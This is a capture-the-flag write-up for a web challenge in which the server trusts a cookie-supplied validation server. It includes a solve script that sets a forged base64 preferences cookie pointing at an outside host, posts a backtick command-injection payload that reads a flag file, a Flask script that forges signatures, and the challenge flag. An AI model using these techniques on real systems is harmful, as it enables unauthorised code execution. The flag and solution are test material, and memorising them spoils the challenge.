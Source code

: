 ```yaml
---
ai_date: '2025-04-27 05:14:05'
ai_summary: Exploited server's preference for custom validation server by modifying
  cookie, allowing for code execution
ai_tags:
- http-hdr
- xss
- csrf
created: 2024-08-30T17:43
points: 50
solves: 184
updated: 2024-09-01T16:00
---
```


## Validation

- Calls external server for validation
- Gets public key from `/pubkey`
- Gets json data from `/`
- Basically it uses our own public key for verification
- We need to confuse the server to use our own `validation_server`
- Notice how the server will use preference's `validation_server` if debug is set?

For our own validation server we can just slightly modify the given code.

## Solve

```python [solve.py]
import base64
import json
import requests
import base64
import json

s = requests.Session()
s.cookies.set('preferences', base64.b64encode(json.dumps({
    'validation_server': 'https://tun.yun.ng/'
}).encode()).decode())
print("running..")
response = s.get("https://feature-unlocked-web-challs.csc.tf/release?debug=true")
print("running second..")
response = s.post("https://feature-unlocked-web-challs.csc.tf/feature", data={'text': '`cat /home/user/flag.txt` #'})
print(response.text)
```

```python [validation.py]
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    date = str(int(time.time()) + 7 * 24 * 60 * 60 + 1)
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8080)
```

```flag
CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}
```